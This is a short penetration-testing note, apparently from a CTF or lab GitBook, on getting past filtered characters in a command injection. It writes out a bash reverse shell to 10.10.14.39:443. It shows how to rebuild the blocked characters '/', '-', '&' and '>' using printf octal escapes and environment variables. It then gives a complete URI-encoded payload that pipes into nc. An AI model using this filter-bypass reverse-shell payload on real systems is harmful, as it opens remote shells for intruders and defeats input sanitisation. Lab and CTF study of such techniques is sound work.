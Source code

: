 ```yaml
---
description: >-
  Characters '/ > & -' are not processed. But we want a reverse tcp one liner.
  We can workaround these characters using the following methods
---
```


# Using ENV to escape Bad Characters

Basically our reverse shell command /bin/bash -i &gt;& /dev/tcp/10.10.14.39/443 0&gt;&1 will not be executed successfully as / characters are being replaced. How do we get around this? 

If Env contains a variable we can use. For example, the `/` character is being escaped during our exploitation phase to get a reverse shell. 

```bash
# Env contains a variable
OLDPWD=/
HOME=/
PHP_FCGI_MAX_REQUESTS=500
PATH=/sbin:/bin:/usr/sbin:/usr/bin:/usr/local/bin:/usr/local/sbin
LANG=en_US.ISO8859-1
PHP_FCGI_CHILDREN=1
PWD=/var/db/rrd

```

Looking at the above Env values We can replace `'$(HOME)'` with `/`

And format the `'$LANG'` variable as such IN NON-BSD:

![](../.gitbook/assets/image%20%2826%29.png)

But If the OS is BSD format so we are not able to format it like above, instead we use linux printf

![](../.gitbook/assets/image%20%2820%29.png)

We can test out we will print out a reverse shell command with replaced badcharacters

```bash
# - character
a=$(printf "\55")	

# / character
b=$(printf "\57")	

# & character
c=$(printf "\46")

# > character
d=$(printf "\76")
```

For this example, since the full payload will be URI encoded, the space characters will be encoded as '+'. The reverse shell payload will now be

```text
a=$(printf+"\55");b=$(printf+"\57");c=$(printf+"\46");d=$(printf+"\76");echo+${b}bin${b}bash+${a}i+${d}${c}+${b}dev${b}tcp${b}10.10.14.39${b}443+0${d}${c}1|nc+10.10.14.39+443
```

Which converts successfully to the reverse shell command that was not working previously

![](../.gitbook/assets/image%20%2824%29.png)

